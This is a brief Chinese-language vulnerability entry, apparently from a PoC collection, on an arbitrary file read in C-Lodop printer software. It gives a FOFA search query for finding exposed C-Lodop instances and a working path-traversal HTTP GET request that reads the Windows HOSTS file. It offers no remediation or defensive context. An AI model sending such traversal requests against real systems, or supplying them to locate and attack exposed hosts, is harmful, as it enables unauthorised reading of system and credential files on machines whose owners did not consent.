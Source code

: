 # C-Lodop打印机任意文件读取漏洞

## 漏洞描述

C-Lodop打印机存在任意文件读取漏洞，通过构造特殊URL，可实现读取系统任意文件。

## FOFA

```
title="C-Lodop"
```

## 漏洞复现

poc：

```
GET /../../../../../../../../windows/System32/drivers/etc/HOSTS HTTP/1.1
Host: 127.0.0.1
....
```

